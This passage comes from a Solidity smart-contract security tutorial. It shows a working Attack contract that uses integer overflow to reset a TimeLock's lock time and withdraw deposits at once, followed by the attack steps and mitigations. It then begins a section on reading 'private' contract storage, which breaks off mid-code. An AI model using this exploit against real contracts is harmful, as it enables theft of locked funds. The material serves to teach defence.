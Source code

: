 ```solidity

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```



Attack steps:

1. Deploy the TimeLock contract
2. Deploy the Attack contract using the address of the TimeLock contract
3. Call the Attack.attack function with 1 ETH
4. Although the Attack.attack function pledges 1 ETH into the TimeLock, it can retrieve the pledged coins immediately

How to avoid:

1. Avoid overflow with SafeMath
2. Use solidity version 0.8 or higher



### Private Data

The solidity language has visibility control over contract state variables, but this control is only valid between contracts, and is invalid for eth_getStorageAt or web3.eth.getStorageAt, they can still get the value of private type state variables



```solidity
pragma solidity ^0.8.13;

contract Vault {
    // slot 0
    uint public count = 123;
    // slot 1
    address public owner = msg.sender;
    bool public isTrue = true;
    uint16 public u16 = 31;
    // slot 2
    bytes32 private password;

    // constants do not use storage
    uint public constant someConst = 123;

    // slot 3, 4, 5 (one for each array element)
    bytes32[3] public data;

    struct User {
        uint id;
        bytes32 password;
    }
```